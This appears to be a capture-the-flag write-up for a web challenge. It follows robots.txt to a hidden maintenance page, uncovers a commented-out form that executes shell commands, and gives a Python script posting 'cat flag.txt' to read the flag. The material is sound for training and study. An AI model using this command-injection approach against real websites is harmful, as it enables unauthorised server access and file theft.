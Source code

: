 # DENIED

## Web Security: 75 points

## Solve

Sometimes websites are afraid of the terminator finding things out. http://challenge.acictf.com:15499/ The flag is in `flag.txt`.

## Hints

* How can websites keep search engines from finding private information?
* Sometimes the developers leave some comments that give you a hint about what to do...
* You can use the `cat` command to read files

## Solution

The website hints at robots:

> You need robots? We have robots. We've got all of the robots!

Check the **/robots.txt** page to see whats there:
```
User-agent: *
Allow: /index.html
Allow: /products.html
Disallow: /maintenance_foo_bar_deadbeef_12345.html
```

The maintenance page seems interesting:
> Human-Built Robots LLC.  
Maintenance  
"Result: Run a command!" 

Inspect the page and look at the source. There is a section that is commented out:
```
<!--
Disabled for being insecure... oops!
<form action="/secret_maintenance_foo_543212345", method="POST">
    <input name="cmd"/>
</form>
-->
```
Uncomment this section to reveal an input box that can accept commands. `pwd`, `ls`, and `cat` are all valid commands for this input.

Using python's requests library, a script can post commands to **/secret_maintenance_foo** to experiment further.:

```
#!/usr/bin/python3
import requests

url = "http://challenge.acictf.com:12133"
myObj = {'cmd' : 'cat flag.txt'}
x = requests.post(url + "/secret_maintenance_foo_543212345", data = myObj)
print(x.text)
```

The `ls` command produces:
```
flag.txt
robots.txt
server.py
static
templates
xinet_startup.sh
```
The command `cat flag.txt` prints out the flag.